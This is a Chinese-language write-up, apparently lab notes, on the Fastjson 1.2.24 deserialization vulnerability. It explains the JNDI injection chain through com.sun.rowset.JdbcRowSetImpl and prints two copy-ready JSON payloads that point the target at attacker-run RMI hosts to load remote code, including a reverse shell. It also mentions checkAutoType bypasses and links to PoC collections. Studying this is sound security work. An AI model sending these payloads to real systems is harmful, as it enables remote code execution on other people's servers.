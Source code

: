 ## **小于等于1.2.24版本**
请求包的请求体JSON字符会带有一个@type来标记其字符的原始类型，在反序列化的时候会读取这个@type，来把JSON内容反序列化成@type指定的对象，并且会调用这个对象的setter或者getter方法。
此时@type的类有可能被恶意构造，只需要合理构造一个JSON，使用@type指定一个想要的攻击类库就可以实现攻击。

常见的有sun官方提供的一个类com.sun.rowset.JdbcRowSetImpl，其中有个dataSourceName方法，在执行时会触发JNDI注入支持，传入一个rmi的源或ldap源，只要解析其中的url就会支持远程调用，
因此整个漏洞复现的原理过程就是：
```
1. 攻击者（我们）访问存在fastjson漏洞的目标靶机网站，通过burpsuite抓包改包，
以json格式添加com.sun.rowset.JdbcRowSetImpl恶意类信息发送给目标机。
2. 存在漏洞的靶机对json反序列化时候，会加载执行我们构造的恶意信息(访问rmi服务器)，
靶机服务器就会向rmi服务器请求待执行的命令。
也就是靶机服务器问rmi服务器，（靶机服务器）需要执行什么命令啊？
3. rmi 服务器请求加载远程机器的class（这个远程机器是我们搭建好的恶意站点，
提前将漏洞利用的代码编译得到.class文件，并上传至恶意站点），
得到攻击者（我们）构造好的命令（ping dnslog或者创建文件或者反弹shell等）
4. rmi将远程加载得到的class（恶意代码），作为响应返回给靶机服务器。
5. 靶机服务器执行了恶意代码，被攻击者成功利用。
```
```
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "rmi://47.109.58.205:1099/cpuw3a",
    "autoCommit":"true"
}

{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.43.14:6666/Object","autoCommit":true}
```
![](https://img-bc.icode.best/26de9fc36b2940c6882491c5453db571.png)



在 Fastjson1.2.25 中使用了 checkAutoType 来修复1.2.22-1.2.24中的漏洞，其中有个 autoTypeSupport 默认为 False。当 autoTypeSupport 为 False 时，先黑名单过滤，再白名单过滤，若白名单匹配上则直接加载该类，否则报错。当 autoTypeSupport 为 True 时，先白名单过滤，匹配成功即可加载该类，否则再黑名单过滤。对于开启或者不开启，都有相应的绕过方法。​

^
## **其他绕过和利用链**

<https://github.com/lemono0/FastJsonParty/blob/main/Fastjson%E5%85%A8%E7%89%88%E6%9C%AC%E6%A3%80%E6%B5%8B%E5%8F%8A%E5%88%A9%E7%94%A8-Poc.md>

<https://github.com/safe6Sec/Fastjson>

主流版本利用：https\://www\.freebuf.com/vuls/361576.html\




